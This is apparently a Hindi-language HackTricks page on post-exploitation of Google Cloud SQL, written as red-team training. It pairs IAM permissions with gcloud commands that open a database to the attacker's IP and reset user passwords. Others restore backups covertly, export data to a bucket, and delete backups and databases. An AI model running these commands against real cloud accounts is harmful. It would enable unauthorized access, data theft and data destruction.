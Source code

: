 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Cloud SQL के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

डेटाबेस से कनेक्ट करने के लिए आपको **बस डेटाबेस पोर्ट तक पहुंच की आवश्यकता है** और **यूजरनेम** और **पासवर्ड** पता होना चाहिए, कोई IAM आवश्यकताएँ नहीं हैं। इसलिए, एक आसान तरीका है कि यदि डेटाबेस का एक सार्वजनिक IP पता है, तो अनुमत नेटवर्क को अपडेट करें और **अपना खुद का IP पता इसे एक्सेस करने की अनुमति दें**।
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
यह भी संभव है कि **`--no-backup`** का उपयोग करके **डेटाबेस के बैकअप को बाधित** किया जा सके।

चूंकि ये आवश्यकताएँ हैं, मैं पूरी तरह से सुनिश्चित नहीं हूँ कि **`cloudsql.instances.connect`** और **`cloudsql.instances.login`** के लिए अनुमतियाँ क्या हैं। यदि आप जानते हैं तो एक PR भेजें!

### `cloudsql.users.list`

डेटाबेस के **सभी उपयोगकर्ताओं की सूची प्राप्त करें:**
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

यह अनुमति **डेटाबेस के अंदर एक नया उपयोगकर्ता बनाने** की अनुमति देती है:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

यह अनुमति **डेटाबेस के अंदर उपयोगकर्ता को अपडेट करने** की अनुमति देती है। उदाहरण के लिए, आप इसका पासवर्ड बदल सकते हैं:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

बैकअप में **पुरानी संवेदनशील जानकारी** हो सकती है, इसलिए उन्हें चेक करना दिलचस्प है।\
**एक बैकअप को** एक डेटाबेस के अंदर पुनर्स्थापित करें:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
इसे अधिक छिपे हुए तरीके से करने के लिए, एक नया SQL इंस्टेंस बनाना और वहां डेटा को पुनर्प्राप्त करना अनुशंसित है, बजाय वर्तमान में चल रहे डेटाबेस में।

### `cloudsql.backupRuns.delete`

यह अनुमति बैकअप को हटाने की अनुमति देती है:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**एक डेटाबेस का निर्यात करें** ताकि आप इसे वहां से एक्सेस कर सकें:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**क्लाउड स्टोरेज बकेट से एक डेटाबेस आयात करें** (ओवरराइट):
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

db instance से एक डेटाबेस हटाएं:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
